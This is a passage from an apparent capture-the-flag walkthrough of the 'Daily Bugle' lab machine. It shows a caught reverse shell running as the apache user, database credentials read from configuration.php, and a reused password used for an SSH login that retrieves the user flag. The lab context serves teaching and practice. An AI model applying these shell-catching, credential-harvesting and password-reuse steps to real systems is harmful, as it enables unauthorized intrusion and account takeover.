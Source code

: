 
```shell
listening on [any] 4444 ...
connect to [10.9.5.186] from (UNKNOWN) [10.10.16.95] 37480
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:34:42 up 31 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 
```
Let us access /var/www/html `cd var/www/html` check file in this machine
```shell
sh-4.2$ ls
ls
LICENSE.txt
README.txt
administrator
bin
cache
cli
components
configuration.php
htaccess.txt
images
includes
index.php
language
layouts
libraries
media
modules
plugins
robots.txt
templates
tmp
web.config.txt
```

`configuration.php` has some interesting information for us.
```shell
public $host = 'localhost';
        public $user = 'root';
        public $password = 'nv5uz9r3ZEDzVjNu';
```

## SSH

We then use the public password to login
```shell
 ssh jjameson@10.10.66.95       
The authenticity of host '10.10.66.95 (10.10.66.95)' can't be established.
ED25519 key fingerprint is SHA256:Gvd5jH4bP7HwPyB+lGcqZ+NhGxa7MKX4wXeWBvcBbBY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.66.95' (ED25519) to the list of known hosts.
jjameson@10.10.66.95's password: 
Last login: Mon Dec 16 05:14:55 2019 from netwars
[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$ cat user.txt
27a260fe3cba712cfdedb1c86d80442e
```
We have the user flag but we can't do much with the priliges we have.
